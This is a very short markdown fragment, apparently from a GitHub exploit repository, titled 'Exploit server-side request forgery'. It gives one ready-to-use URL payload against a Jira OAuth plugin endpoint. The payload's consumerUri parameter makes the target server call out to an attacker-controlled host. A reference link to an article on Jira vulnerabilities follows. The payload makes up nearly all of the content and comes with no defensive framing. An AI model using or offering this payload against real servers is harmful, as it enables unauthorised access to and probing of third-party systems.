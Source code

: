 ### Exploit server-side request forgery
https://<rhost>/plugins/servlet/oauth/users/icon-uri?consumerUri=https://<lhost>  

### References
https://thehackerish.com/jira-vulnerabilities-and-how-they-are-exploited-in-the-wild  

